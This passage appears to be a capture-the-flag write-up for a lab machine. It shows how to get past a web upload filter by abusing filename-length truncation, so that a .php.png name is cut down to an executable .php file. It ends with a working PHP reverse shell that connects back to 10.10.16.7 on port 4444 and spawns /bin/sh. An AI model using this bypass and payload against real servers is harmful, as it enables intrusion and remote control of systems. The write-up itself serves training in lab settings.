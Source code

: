 This is a hint to the maximum file size name of linux. 

![image.png]({{ site.baseurl }}/assets/falafel/image%2011.png)

We can use metasploit to create 255 bytes of junk:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
```

Now copy and paste the characters, minus 4 chars to add the extension:

```bash
touch Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.png
```

Now let’s try to upload:

```bash
http://10.10.16.7:8001/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.png
```

It was successfully uploaded. We also see that the web server shortened our file name. If we inspect the elements:

![image.png]({{ site.baseurl }}/assets/falafel/image%2012.png)

Our new name:

```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah
```

Now that we know the limit of the file name, let’s upload our php exploit, by first subtracting the 4 chars to add our .php extension, then add a .png extension after that; the website will cut off  the extra .png extension, leaving us with a executable php script. 

```bash
mv Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.png Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png
```

Let’s get a reverse shell.

```bash
<?php
$sock=fsockopen("10.10.16.7",4444);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

```
